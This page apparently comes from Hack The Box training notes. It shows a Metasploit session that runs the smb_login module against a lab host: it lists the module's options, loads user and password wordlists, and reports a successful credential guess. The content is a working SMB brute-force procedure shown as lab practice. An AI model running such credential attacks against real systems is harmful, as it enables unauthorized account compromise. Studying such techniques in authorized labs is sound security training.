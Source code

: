 ### **Metasploit Framework**

```
th1nyunb0y@htb[/htb]$ msfconsole -qmsf6 > use auxiliary/scanner/smb/smb_login
msf6 auxiliary(scanner/smb/smb_login) > options

Module options (auxiliary/scanner/smb/smb_login):

   Name               Current Setting  Required  Description
   ----               ---------------  --------  -----------
   ABORT_ON_LOCKOUT   false            yes       Abort the run when an account lockout is detected
   BLANK_PASSWORDS    false            no        Try blank passwords for all users
   BRUTEFORCE_SPEED   5                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS       false            no        Try each user/password couple stored in the current database
   DB_ALL_PASS        false            no        Add all passwords in the current database to the list
   DB_ALL_USERS       false            no        Add all users in the current database to the list
   DB_SKIP_EXISTING   none             no        Skip existing credentials stored in the current database (Accepted: none, user, user&realm)
   DETECT_ANY_AUTH    false            no        Enable detection of systems accepting any authentication
   DETECT_ANY_DOMAIN  false            no        Detect if domain is required for the specified user
   PASS_FILE                           no        File containing passwords, one per line
   PRESERVE_DOMAINS   true             no        Respect a username that contains a domain name.
   Proxies                             no        A proxy chain of format type:host:port[,type:host:port][...]
   RECORD_GUEST       false            no        Record guest-privileged random logins to the database
   RHOSTS                              yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT              445              yes       The SMB service port (TCP)
   SMBDomain          .                no        The Windows domain to use for authentication
   SMBPass                             no        The password for the specified username
   SMBUser                             no        The username to authenticate as
   STOP_ON_SUCCESS    false            yes       Stop guessing when a credential works for a host
   THREADS            1                yes       The number of concurrent threads (max one per host)
   USERPASS_FILE                       no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS       false            no        Try the username as the password for all users
   USER_FILE                           no        File containing usernames, one per line
   VERBOSE            true             yes       Whether to print output for all attempts

msf6 auxiliary(scanner/smb/smb_login) > set user_file user.list

user_file => user.list

msf6 auxiliary(scanner/smb/smb_login) > set pass_file password.list

pass_file => password.list

msf6 auxiliary(scanner/smb/smb_login) > set rhosts 10.129.42.197

rhosts => 10.129.42.197

msf6 auxiliary(scanner/smb/smb_login) > run

[+] 10.129.42.197:445     - 10.129.42.197:445 - Success: '.\user:password'
[*] 10.129.42.197:445     - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```
